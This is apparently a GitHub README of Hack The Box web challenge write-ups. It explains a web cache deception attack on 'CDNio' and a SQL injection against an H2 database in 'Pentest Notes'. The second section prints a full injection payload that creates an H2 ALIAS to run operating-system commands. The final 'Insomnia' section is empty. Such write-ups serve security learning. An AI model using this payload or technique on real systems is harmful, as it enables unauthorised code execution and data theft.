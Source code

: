 # Writeup_HTB_Web_Challenge
Write-up Web Challenge Hack The Box

## Table of Content
[CDNio](#cdnio)

[Pentest Notes](#pentest-notes)

[Insomnia](#insomnia)

## <a name="cdnio"></a> 	:triangular_flag_on_post: CDNio
Overview of the site have features: 
- register a new account with username, password, email
- search user profile

![image](https://github.com/user-attachments/assets/d621d82a-ce68-4e16-8f6a-0f4fc5fb9633)

![image](https://github.com/user-attachments/assets/d10678e2-f424-4a92-8b24-ab72c1205b6c)

We can see this web have api `/register` and `/profile`
![image](https://github.com/user-attachments/assets/0b63a3e3-e1d6-4a65-adc0-73ce8476e5a8)

Let's see source code

Noteworthy is this config file
![image](https://github.com/user-attachments/assets/eda95f81-341a-462b-b8a2-3ab544188c91)

`location ~* \.(css|js|png|jpg|jpeg|gif|ico|svg|woff|woff2|ttf|eot)$`
a regex allow all url have static extension

```
  proxy_cache cache;
  proxy_cache_valid 200 3m;
  ...
  add_header Cache-Control "public";   
```

and cache them in 3m for anyone read public. We can think of [web cache deception](https://portswigger.net/web-security/web-cache-deception) vulnerability

I have to test my hypothesis, api `/profile` have profile of user and admin. I will request to server `GET /profile/test.css`, if response returned is 200, it means the information has been cached

![image](https://github.com/user-attachments/assets/4ff05369-028c-4a92-bc58-70b5b82b92df)

If admin access `/profile/test.css`, profile admin also cache. But how to make admin access?
In folder bot have a `route.py` defined an api `/visit` request to url, line 20 will call `bot_thread()` method defined `utils/bot.py`

![image](https://github.com/user-attachments/assets/848fbe55-6ea4-4bc4-88dc-5fddd7a8345b)

`bot.py` will request to admin profile in server

![image](https://github.com/user-attachments/assets/188bb880-6461-462b-bba4-d43c119f0a66)

So, i send request uri `profile/test.css` via api `/visit`, uri will send to `bot.py` and get profile admin

![image](https://github.com/user-attachments/assets/dd358258-cb23-4d39-95c2-7d120bcff363)

Response 200 mean profile admin has been leak

![image](https://github.com/user-attachments/assets/47c10b6a-6468-442c-a422-1beb26b75c8a)

Get request to `profile/test.css` and done, receive flag

![image](https://github.com/user-attachments/assets/e12e788e-3746-4841-aef6-c36f49f0cf5e)

## <a name="pentest-notes"></a> 	:triangular_flag_on_post: Pentest Notes
Overview site, some feature:
- register, login

![image](https://github.com/user-attachments/assets/f8323701-3cd1-4b08-865f-15be739080b5)
![image](https://github.com/user-attachments/assets/1f1cfd74-b0d9-4c7a-b29e-8204d1381e34)

- list pentest, notes

![image](https://github.com/user-attachments/assets/63b1097a-c52f-4d0d-aa95-ddd078503e5a)
![image](https://github.com/user-attachments/assets/74c5f5a9-1c4d-4a25-a0ca-7f12b8a06198)

In page Note detail, we can see a parameter `name` 

![image](https://github.com/user-attachments/assets/0e306909-5323-4f44-82b3-df2fe236cb60)

Audit source, in `NotesController.java` param `name` insert to query

![image](https://github.com/user-attachments/assets/381adc91-3d7d-46de-b204-c04a1685701f)

This is SQL Injection vulnerability, we can insert query to leak data in database. 

Test the above hypothesis

![image](https://github.com/user-attachments/assets/14f2f8e5-67d0-4e0f-a92e-504e3840cf2e)

So, this web have SQL Injection, i will see schema of database to get data like table name, user. However, just NOTES table can access by query, and other tables can't get data

![image](https://github.com/user-attachments/assets/fa835a5e-9d5c-48b8-8aad-1e63cd9e6a6d)

Like table `TABLE_PRIVILEGES` i select to column in table but response 500. 
File pom.xml in source code, a dependency is h2.database, that mean this challenge use H2 database. I tried search [vulnerability about H2 DB](https://www.exploit-db.com/exploits/45506). This vulnerability about feature of database, build a ALIAS with java code to run shell in server. So, we can run java code via feature ALIAS of H2 database

I'm tried this payload, and we can pass parameter OS Command to RCE
``` java
SQL Injection' OR 1=0; CREATE ALIAS RCE AS '
    String execve(String cmd) throws java.io.IOException { 
        Process process = Runtime.getRuntime().exec(cmd); 
        java.io.InputStream inputStream = process.getInputStream(); 
        java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html");
        byte[] buffer = new byte[1024]; 
        int bytesRead; 
        while ((bytesRead = inputStream.read(buffer)) != -1) { 
            fileOutputStream.write(buffer, 0, bytesRead);
        } 
        fileOutputStream.close(); 
        inputStream.close(); 
        return "Output written to /app/target/classes/static/hola.html";
    }'; -- -
```

![image](https://github.com/user-attachments/assets/c7e0a44d-60bf-4fab-b857-82f2954d36c5)

And now, we can call ALIAS and pass OS Command

![image](https://github.com/user-attachments/assets/7994e97e-d112-4f69-8654-3c9d11e6888e)

![image](https://github.com/user-attachments/assets/edd7398a-a39a-43c0-863d-679ba74b0aa5)

![image](https://github.com/user-attachments/assets/56e60c11-77ea-442c-a851-fb6e98c0d76b)

## <a name="insomnia"></a> 	:triangular_flag_on_post: Insomnia
